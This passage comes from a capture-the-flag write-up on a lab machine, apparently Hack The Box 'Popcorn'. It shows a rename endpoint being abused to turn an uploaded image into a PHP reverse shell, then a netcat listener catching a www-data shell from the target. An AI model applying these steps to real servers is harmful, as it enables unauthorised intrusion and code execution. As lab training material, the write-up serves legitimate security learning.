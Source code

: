 Generally, web services will be installed by default in /var/www or /var/www/html. We can try both. Since we can reach the files via the [http://10.10.10.6/torrent/upload/](http://10.10.10.6/torrent/upload/) page, let's try the following:

[http://10.10.10.6/rename/index.php?filename=/var/www/html/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/html/torrent/upload/](http://10.10.10.6/rename/index.php?filename=/var/www/html/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/html/torrent/upload/a.php)[00b21cf92b5c30cff62a126154c23571979a4cab](http://10.10.10.6/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif)[.php](http://10.10.10.6/rename/index.php?filename=/var/www/html/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/html/torrent/upload/a.php)

That didn't work. Let's try the following:

[http://10.10.10.6/rename/index.php?filename=/var/www/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/torrent/upload/](http://10.10.10.6/rename/index.php?filename=/var/www/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/torrent/upload/a.php)[00b21cf92b5c30cff62a126154c23571979a4cab](http://10.10.10.6/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif)[.php](http://10.10.10.6/rename/index.php?filename=/var/www/html/torrent/upload/00b21cf92b5c30cff62a126154c23571979a4cab.gif\&newfilename=/var/www/html/torrent/upload/a.php)

![](<../../.gitbook/assets/9 (1) (1) (1).JPG>)

That seems to have worked. Let's check the [http://10.10.10.6/torrent/upload/](http://10.10.10.6/torrent/upload/?C=N;O=A) page:

![](<../../.gitbook/assets/10 (2) (1) (1).JPG>)

All we need to do now is make sure we have a netcat listener running before clicking on the 00b21cf92b5c30cff62a126154c23571979a4cab.php link to execute the reverse shell code in the script.&#x20;

```
└─$ nc -nvlp 8888                                                                                           130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:52155.
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:41:39 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ 
```
